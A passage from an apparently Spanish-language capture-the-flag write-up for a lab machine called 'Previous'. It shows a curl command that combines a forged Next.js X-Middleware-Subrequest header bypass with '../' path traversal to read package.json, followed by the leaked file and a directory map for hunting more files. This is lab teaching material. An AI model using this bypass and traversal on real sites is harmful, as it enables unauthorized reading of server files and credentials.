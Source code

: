 ```
```

Vemos que esta funcionando de forma correcta, por lo que podemos deducir que este servicio esta corriendo con el usuario `node` o bajo algun usuario en alguna carpeta, por lo que vamos a salirnos desde la ruta donde estemos ejecutando ese `download` y hacer un `../` hasta que nos muestre informacion de algun archivo.

## Escalate user jeremy

Si hacemos esto:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../package.json"
```

Info:

```
{
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build"
  },
  "dependencies": {
    "@mdx-js/loader": "^3.1.0",
    "@mdx-js/react": "^3.1.0",
    "@next/mdx": "^15.3.0",
    "@tailwindcss/postcss": "^4.1.3",
    "@tailwindcss/typography": "^0.5.16",
    "@types/mdx": "^2.0.13",
    "next": "^15.2.2",
    "next-auth": "^4.24.11",
    "postcss": "^8.5.3",
    "react": "^18.2.0",
    "react-dom": "^18.2.0",
    "tailwindcss": "^4.1.3"
  },
  "devDependencies": {
    "@types/node": "22.14.0",
    "@types/react": "19.1.0",
    "typescript": "5.8.3"
  }
}
```

Vemos que esta funcionando, si buscamos un poco la estructura de archivos que puede tener este directorio para ir probando archivos veremos algo parecido a esto:

```
/
├── app/                    # Directorio principal (App Router)
│   ├── api/               # Endpoints de API
│   │   └── download/      # Tu endpoint vulnerable
│   │       └── route.js   # route.js | route.ts
│   ├── admin/             # Página de administración
│   │   └── page.js        # page.js | page.tsx
│   ├── globals.css        # Estilos globales
│   └── layout.js          # Layout principal
├── pages/                 # (Legacy - Pages Router)
│   ├── api/              
│   │   └── auth/
│   │       └── [...nextauth].js
│   └── admin.js
├── lib/                   # Utilidades y configuraciones
```